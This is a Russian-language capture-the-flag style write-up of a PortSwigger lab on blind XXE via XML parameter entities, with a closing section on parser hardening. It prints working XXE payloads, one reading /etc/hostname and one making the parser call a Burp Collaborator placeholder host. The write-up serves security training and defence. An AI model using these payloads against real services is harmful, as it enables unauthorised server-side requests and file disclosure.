



# Lab: Blind XXE with out-of-band interaction via XML parameter entities

**Платформа:** PortSwigger Web Security Academy
**Категория:** XXE (XML External Entity)
**Сложность:** Practitioner
**Дата:** 2025-07-29

---

## TL;DR
Функция «Check stock» парсит XML, но не отражает значения в ответе
и блокирует обычные внешние сущности (`&xxe;` в теле документа).
Обход — через **параметрическую сущность** (`%xxe`), которая
объявляется и тут же вызывается прямо в `DOCTYPE`, до того как
парсер успевает её заблокировать. Это заставляет XML-парсер
сделать DNS-резолв и HTTP-запрос к Burp Collaborator — то есть
внеполосное (out-of-band) взаимодействие, подтверждающее слепую
инъекцию XXE.

---

## Отличие от базового XXE

```
Базовый XXE (с отражением в ответе):
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
&xxe; в теле → значение попадает в ответ сервера → видим напрямую

Эта лаба (слепой XXE, ответ ничего не показывает):
Обычная внешняя сущность &xxe; → приложение блокирует такие payload'ы
Нужен другой канал утечки → раз в ответе ничего не видно,
используем DNS/HTTP запрос парсера к своему серверу (Collaborator)
как канал подтверждения инъекции
```

Ключевая идея: если сущность верхнего уровня (`&xxe;`) фильтруется
или ответ не отражает данные — переходим на уровень **параметрических
сущностей** (`%xxe;`), которые работают только внутри самого DTD и
имеют собственные правила обработки, зачастую не покрытые фильтром.

---

## Разведка

### Шаг 1 — Анализ запроса «Check stock»

На странице товара нажала **Check stock**, перехватила запрос в Burp:

```http
POST /product/stock HTTP/2
Host: LAB-ID.web-security-academy.net
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

Ответ содержит только количество на складе, без отражения
дополнительных значений — то есть классический **слепой** сценарий,
результат инъекции в ответе не увидеть.

### Шаг 2 — Проверка на обычную внешнюю сущность

Попробовала стандартный payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Приложение блокирует запрос — сервер распознаёт обращение к внешней
сущности в теле документа и отклоняет его. Отражения тоже нет,
даже если бы запрос прошёл — данные попросту негде увидеть.

Вывод: нужен канал, не зависящий от отражения в HTTP-ответе.


---

## Эксплуатация

### Шаг 3 — Переход на параметрические сущности

Параметрическая сущность (`%name;`) в отличие от обычной (`&name;`)
доступна **только внутри самого DTD**, но не в теле XML-документа.
Её можно объявить и тут же вызвать прямо в `DOCTYPE` — это происходит
до применения части проверок, которые ловят именно `&xxe;` в теле:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
    <!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN">
    %xxe;
]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

Что здесь происходит:

```
1. <!ENTITY % xxe SYSTEM "http://..."> — объявили параметрическую
   сущность xxe, указали в качестве значения внешний URL (Collaborator)
2. %xxe; — сразу же вызвали её внутри DTD
3. XML-парсер, чтобы подставить значение сущности, обязан
   сначала его получить → делает DNS-резолв домена коллаборатора,
   затем HTTP GET к этому серверу
4. Тело <stockCheck> при этом остаётся обычным —
   фильтр, блокирующий &xxe; в теле, здесь не участвует
```

### Шаг 4 — Вставка Collaborator payload

В Burp Suite Professional вставила определение внешней сущности
между XML-декларацией и элементом `stockCheck`:

```
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
```

Через правый клик → **Insert Collaborator payload** — Burp сам
подставил уникальный поддомен, привязанный к текущей сессии
Collaborator, и отправила модифицированный запрос.



### Шаг 5 — Проверка взаимодействия

Перешла на вкладку **Collaborator** → **Poll now**.

```
Ожидаемый результат:
DNS-запрос  — парсер резолвит домен коллаборатора
HTTP-запрос — парсер после резолва идёт забирать
              содержимое SYSTEM-ресурса по HTTP
```

Оба взаимодействия появились в списке — это подтверждает, что
XML-парсер приложения выполнил внешний запрос по указанному в
параметрической сущности адресу, то есть инъекция сработала,
несмотря на то что ни один байт результата не попал в HTTP-ответ.
Лаба помечена как решённая.


---

## Итог

```
Проблема: приложение не отражает результат парсинга в ответе
          → обычную инъекцию не подтвердить визуально

Проблема: обычные внешние сущности (&xxe;) в теле документа
          фильтруются приложением

Обход:    параметрическая сущность объявляется и вызывается
          прямо в DOCTYPE (%xxe;), минуя проверку тела документа
          → парсер сам делает исходящий DNS + HTTP запрос
          → канал подтверждения инъекции — Burp Collaborator,
            а не отражение в ответе
```

### Почему это работает именно так

```
Отражение в ответе отсутствует:
→ нужен внеполосный (out-of-band) канал для доказательства XXE

Фильтр блокирует &entity; в теле:
→ но не проверяет %entity;, объявленную и
  вызванную внутри самого DTD

Вместе:
→ параметрическая сущность как "слепой" канал утечки:
  не показывает данные, но безусловно доказывает SSRF-подобный
  исходящий запрос со стороны сервера
```

---

## Защита

```python
# УЯЗВИМО — DTD и внешние сущности разрешены парсером по умолчанию:
from lxml import etree
parser = etree.XMLParser()  # resolve_entities=True по умолчанию
tree = etree.parse(request_body, parser)

# БЕЗОПАСНО — полностью отключить DTD и сущности:
parser = etree.XMLParser(
    resolve_entities=False,
    no_network=True,
    dtd_validation=False,
    load_dtd=False,
)
tree = etree.parse(request_body, parser)
```

```java
// УЯЗВИМО — DocumentBuilderFactory по умолчанию обрабатывает DOCTYPE:
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
DocumentBuilder db = dbf.newDocumentBuilder();

// БЕЗОПАСНО — запретить DOCTYPE полностью:
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setXIncludeAware(false);
dbf.setExpandEntityReferences(false);
```

Дополнительно:
- По возможности вообще не поддерживать `DTD` во входящем XML —
  большинству API он не нужен
- Если DTD нужен по бизнес-логике — явно запретить внешние
  и параметрические сущности на уровне парсера, а не фильтровать
  содержимое запроса регулярками
- Ограничивать исходящий сетевой доступ приложения (egress-фильтрация),
  чтобы даже успешный XXE не мог достучаться до произвольных хостов
- Логировать и мониторить неожиданные исходящие DNS/HTTP запросы
  от серверных компонентов